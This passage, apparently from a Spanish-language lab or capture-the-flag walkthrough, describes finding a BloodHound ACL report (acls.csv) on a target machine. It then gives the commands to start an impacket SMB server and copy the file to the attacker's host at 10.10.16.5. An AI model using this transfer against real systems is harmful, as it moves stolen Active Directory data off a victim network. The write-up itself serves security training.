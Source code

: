 Investigando más sobre los directorios, nos encontramos un archivo (_acls.csv_) el cual parece ser un reporte de la auditoría realizada con BloodHound.

<figure><img src="../../../.gitbook/assets/3357_vmware_bw5xClElEz.png" alt=""><figcaption></figcaption></figure>

Para transferirnos este archivo a nuestro equipo local, procederemos a crear un servidor SMB y a compartir el archivo.

```bash
smbserver.py smbFolder $(pwd) -smb2support

copy acls.csv \\10.10.16.5\smbFolder\acls.csv
```

<figure><img src="../../../.gitbook/assets/3358_vmware_EskjlVw6Ge.png" alt=""><figcaption></figcaption></figure>

Revisaremos que disponemos del archivo en nuestro equipo local, procederemos a abrirlo para visualizar su contenido.
